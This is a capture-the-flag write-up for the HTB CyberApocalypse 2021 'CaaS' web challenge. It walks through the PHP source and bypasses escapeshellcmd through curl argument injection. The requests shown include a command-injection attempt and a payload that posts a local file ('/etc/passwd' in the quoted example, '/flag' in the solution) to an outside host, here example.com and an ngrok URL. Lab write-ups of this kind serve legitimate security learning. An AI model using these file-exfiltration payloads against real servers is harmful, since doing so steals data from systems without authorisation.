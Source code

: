 **CTF:** HTB CyberApocalypse 2021 <br>
**CHALLENGE:** CaaS<br>
**CATEGORY:** Web

## Prompt
>cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.

We're provided with both an IP:port, and a [.zip](./web_caas.zip) of the website's source code.

## Walkthrough
![caas splash page](caas_website.png)

Just a hunch from the splash page, this challenge is going to be about curl. ;-)

Looking through the page source, `main.js` references an api endpoint called curl that's expecting a POST request with `ip=value` in the data field.

```js
fetch('/api/curl', {
  method: 'POST',
  body: `ip=${host}`,
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  }
}
```

Let's see what we can do!

<br>**Step 0:** Use the web interface and see what happens.<br>
Spoiler alert: nothing happened. BUT this let me use Network tab of Firefox Developer Tools to "copy as cURL" and start playing with an initial API request.

<br>**Step 1:** Use the API as intended to understand what normal looks like

>**request:**
>```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data 'ip=127.0.0.1'
>```
>
>**response:** the page we asked for, wrapped in json <br>
>```html
{"message":["<html>","<head>","\t<meta charset=\"UTF-8\">","\t<title>Health Check<\/title>","\t<meta name=\"viewport\" content=\"width=device-width, initial-scale=1, user-scalable=no\">","\t<link rel=\"icon\" href=\"\/static\/images\/favicon.png\">","\t<link rel=\"stylesheet\" href=\"\/static\/css\/main.css\"\/>","    <link href=\"https:\/\/fonts.googleapis.com\/css?family=Inconsolata:400,700|VT323\" rel=\"stylesheet\">","<\/head>","<body>","    <div class=\"main\">","        <h1>Health Checker 9000<\/h1>","        <p>Verify the status of a host by specifying an IP address.<\/p>","        <div class=\"margin\"><\/div>","        <p class=\"green\">[root@localhost] # curl <input autofocus contenteditable=\"true\" id=\"command\"><\/input><\/p>","        <center><textarea id=\"console-output\" readonly><\/textarea><\/center>","    <\/div>","<\/body>","<script src=\"\/static\/js\/main.js\"><\/script>","<\/html>"]}
>```

<br>**Step 2:** Do something unexpected with the API to see what error cases look like

>**request:**
>```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data 'ip=127.0.0.1/flag'
>```
>**response:** nothing
>```
{"message":[]}
>```

<br>**Step 3:** Resign myself to the fact that I have to go through the provided php source code to figure out what's actually going on.

> The first thing I noticed was that there's a file named `flag` at the root of the unzipped file, which is what we're trying to get access to.
>![directory listing shows a file named flag in the root](caas_source_directory.png)
><br><br>
>The next file that sticks out is `/controllers/CurlController.php`:

```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
>Now that we know what's handling our POST request, maybe we can break things :-D

<br>**Step 4:** See if we can do some kind escape to overwrite the `$url` parameter in `CurlController.php` to execute our own commands
>**request:**
>```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data "ip='];$url='whoami';//"
>```
>**response:** nope.
>```
{"message":[]}
>```

**Step 5-16:** flail.

**Step 17:** Recognize that things aren't working, and it's time for another approach.
>Looking deeper through the provided source code, I found where curl is getting called in `/model/CommandModel.php`.

```php
$this->command = "curl -sL " . escapeshellcmd($url);
```

>I wouldn't say I'm overly familiar with php, but searching the Internet for `escapeshellcmd` bypasses yielded [this gem](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl). The premise is that you can use curl to include a local (to the web server) file in a POST request to a different web server of your choosing.

```php
$url = '-F password=@/etc/passwd http://example.com';
system(escapeshellcmd('curl '.$url));
```

>The example uses `/etc/passwd`, but we can modify that to send the flag, which we know is in the root directory from the provided zip. To make this work, we also need to be hosting a publicly-routable web server that can handle POST requests. To handle the "publicly-routable" component, I used [ngrok](https://ngrok.com/), which provides a URL that exposes a local server behind a NAT or firewall (e.g. a home network where everything is NAT'd out a router). Spinning up a VPS would have been another viable option. On the web server front, I started with Python's simple server, and quickly learned that it does NOT handle POST requests. A quick Google, later and I found [something that did](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7).

**Step 17a:** establish an ngrok tunnel and unique URL<br>
**Step 17b:** run a web server that can handle POSTed data<br>
**Step 17c:** pew pew curl pew pew<br>
**Step 17d:** flag!<br>

>**request:**
>```bash
curl 'http://178.62.93.166:30207/api/curl' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
--data "ip=-F flag=@/flag https://078b894bbeba.ngrok.io"
>```
>**response:** captured POST to our web server has the flag!<br><br>
>![caas file retrieval with curl](caas_solved.png)
